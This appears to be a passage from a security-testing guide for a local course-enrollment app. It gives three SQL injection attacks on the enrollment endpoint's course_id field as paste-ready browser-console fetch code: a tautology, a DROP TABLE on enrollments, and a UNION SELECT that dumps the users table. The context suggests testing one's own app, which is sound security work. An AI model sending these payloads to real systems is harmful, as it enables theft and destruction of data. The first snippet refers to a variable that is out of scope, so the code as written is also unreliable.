 ### **Attack Vectors**:

#### **Attack 2.1: OR 1=1 Injection**

**Via Security Suite**:
```
Click: "💉 Test: 1 OR 1=1"
```

**Via Browser Console**:
```javascript
// Paste in Console (when logged in):
fetch('http://localhost:8080/course/enroll', {
    method: 'POST',
    headers: {
        'Content-Type': 'application/x-www-form-urlencoded'
    },
    body: new URLSearchParams({
        course_id: "1 OR 1=1"
    }),
    credentials: 'include'
})
.then(r => r.json())
.then(data => {
    console.log('Status:', r.status);
    console.log('Response:', data);
});
```

#### **Attack 2.2: DROP TABLE Injection**

**Via Browser Console**:
```javascript
fetch('http://localhost:8080/course/enroll', {
    method: 'POST',
    headers: {
        'Content-Type': 'application/x-www-form-urlencoded'
    },
    body: new URLSearchParams({
        course_id: "1; DROP TABLE enrollments--"
    }),
    credentials: 'include'
})
.then(r => r.json())
.then(data => console.log(data));
```

#### **Attack 2.3: UNION SELECT Injection**

**Via Browser Console**:
```javascript
fetch('http://localhost:8080/course/enroll', {
    method: 'POST',
    headers: {
        'Content-Type': 'application/x-www-form-urlencoded'
    },
    body: new URLSearchParams({
        course_id: "1 UNION SELECT * FROM users--"
    }),
    credentials: 'include'
})
.then(r => r.json())
.then(data => console.log(data));
```
